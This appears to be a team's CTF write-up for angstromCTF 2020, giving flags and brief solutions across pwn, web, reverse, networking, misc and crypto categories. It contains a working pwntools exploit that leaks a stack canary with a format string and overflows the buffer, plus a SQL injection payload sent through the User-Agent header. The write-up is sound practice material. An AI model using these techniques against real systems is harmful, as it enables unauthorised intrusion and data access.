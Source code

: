 # angstromCTF 2020

## pwn

### Canary

flag: actf{youre_a_canary_killer_>:(}

string format problem: leak canary with string format then bof

payload:

```lang=c
from pwn import *
flag = p64(0x400787)
r = remote('shell.actf.co',20701)
print(r.recvuntil(" name? "))
payload = '%17$p'
r.sendline(payload)
data = r.recvuntil("\n")
canary = data.split(',')[-1].strip()[:-1]
canary_int = p64(int(canary,16))
print(r.recvuntil("Anything else you want to tell me? "))
payload = "a"*56 + canary_int + 'b'*8 + flag
r.sendline(payload)
r.interactive()
```

#### Reference
[format string wiki](https://en.wikipedia.org/wiki/Printf_format_string)

kaibro edu-ctf

[ctf wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_exploit-zh/)

[format string course](https://github.com/qazbnm456/ctf-course/blob/master/slides/w4/format-string.md)

## Web

### Consolation

flag: actf{you_would_n0t_beli3ve_your_eyes}

given a js file below, just find the function that would output the flag

```lang=c
console[_0x4229('0x14', '70CK')](_0x4229('0x38', 'rwU*'));
```

### Secret agent

flag: actf{nyoom_1_4m_sp33d}

simple sql injection(mysql) which reads the payload from user-agent field.

1. Utilize burp-suite to intercept requests.
2. Modify the user-agent to the payload below.


payload

> Roselia' or 1=1 limit 2,1 #

### xmass still stand - not solved

xss attack

### Defund's Crypt - not solved

LFI attack ( image insert reverse shell)

## Reverse

### Windows of Opportunity

flag: actf{ok4y_m4yb3_linux_is_s7ill_b3tt3r}

simply use idapro and will find the flag


### Autorev, Assemble! - Not solved

hundreds of functions with simple comparison
construct the string based on the given functions

### patcherman - Not Solved

patch program(section issue)

## Networking

### wireshark-2

flag: actf{ok_to_b0r0s-4809813}

reconstruct the jpeg file to gain the flag. After inspect the traffic, you'll find a packet with images, extract the image from the packet.

![](https://i.imgur.com/IIucaLx.png =500x300)


#### tools & reference

[wireshark refrence psh,ack](https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture)

[repair jpeg](https://online.officerecovery.com/pixrecovery/)

[eof of jpeg](https://stackoverflow.com/questions/4585527/detect-eof-for-jpg-images)


### ws3

flag: actf{git_good_git_wireshark-123323}

Git packfile reconstruction

Given a pcap file. Inspect the pcap file than you will find several http request / response related to git-receive packet and git-response packet.
These traffic are request and response of files in git directory. To be more specific, the users are trying to fetch the data from remote repo.

[git fetching mechanism](https://stackoverflow.com/questions/27430312/what-does-git-fetch-really-do)

basically, client will first invoke upload-pack to remote repo, the repo will then compare the latest packfile with the uploaded one. Eventuall,y the repo will return those commit, objects that client lack to the client

In conclusion, those objects / commit received from repo contains the flag.

This is the main commit / objects.

![](https://i.imgur.com/6BpFvYh.png)

After reassemble the whole packet, retrieve the packet start from PACK to the end. This will be our packfile.
Save the packfile to .pack extension.

run the command to gain the idx file

> git index-pack *.pack

follow this youtube vedio to reconstruct the objects

https://www.youtube.com/watch?v=cauIy20JhFs

Then simply run git cat-file -p to gain the flag

![](https://i.imgur.com/2BIgoJq.jpg =300x400)


#### reference

[hex to binary](https://tomeko.net/online_tools/hex_to_file.php?lang=en)

[git packfile doc](https://git-scm.com/book/en/v2/Git-Internals-Packfiles)

[packfile structure-1](https://codewords.recurse.com/issues/three/unpacking-git-packfiles)

[packfile structure-2](http://shafiul.github.io/gitbook/7_the_packfile.html)

[unpack packfile](https://www.youtube.com/watch?v=cauIy20JhFs)

[git command](https://www.juduo.cc/technique/62040.html)

[git unpack-objects](https://git-scm.com/docs/git-unpack-objects)


## misc

### inputter

flag: actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}

reverse the code and input the argument with pwntools(arguments are not printable)

We have to solve this challenge through logging the shell and run the program.

Since the argv argument nor the fgets target is printable ascii
we should use pwnlib to tackle the unprintable ascii input issue

```lang=c
from pwn import *
r = process(["./inputter"," \n'\"\a"])
r.sendline("\0")
print(r.recv())
```

### Shifter

flag:actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}

simply implement ceasar cipher + dynamic programming

## Crypto

### keysar

flag: actf{yum_delicious_salad}

keyed ceasar: http://rumkin.com/tools/cipher/caesar-keyed.php
